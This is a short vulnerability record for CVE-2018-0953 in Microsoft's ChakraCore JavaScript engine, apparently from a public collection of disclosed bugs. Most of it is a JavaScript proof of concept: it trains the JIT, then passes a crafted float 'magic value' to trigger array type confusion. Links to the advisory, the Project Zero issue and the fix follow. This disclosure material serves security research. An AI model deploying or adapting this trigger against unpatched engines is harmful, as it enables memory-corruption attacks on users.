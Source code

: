 # CVE-2018-0953

- Fix: May 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, value) {
    arr[1] = value;
    arr[0] = 2.3023e-320;
}

function main() {
    for (let i = 0; i < 0x10000; i++)
        opt([1.1], 2.2);

    let arr = [1.1];
    opt(arr, -5.3049894784e-314);  // MAGIC VALUE!

    print(arr);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0953)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1531)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/71d7b389a8e01f1f29bff7202270f5ce1d63696a)
